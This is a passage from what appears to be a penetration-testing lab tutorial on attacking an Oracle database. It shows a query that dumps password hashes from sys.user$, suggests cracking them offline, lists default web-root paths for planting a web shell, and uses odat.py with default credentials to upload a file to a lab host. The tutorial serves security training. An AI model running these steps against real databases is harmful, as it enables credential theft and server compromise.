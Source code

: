 
We can follow many approaches once we get access to an Oracle database. It highly depends on the information we have and the entire setup. However, we can not add new users or make any modifications. From this point, we could retrieve the password hashes from the sys.user$ and try to crack them offline. The query for this would look like the following:

```
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```


Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

```
OS	   |  Path
----------------------
Linux	 | /var/www/html
Windows| C:\inetpub\wwwroot

```

First, trying our exploitation approach with files that do not look dangerous for Antivirus or Intrusion detection/prevention systems is always important. Therefore, we create a text file with a string and use it to upload to the target system.

```
NiteshKS22@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
NiteshKS22@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```
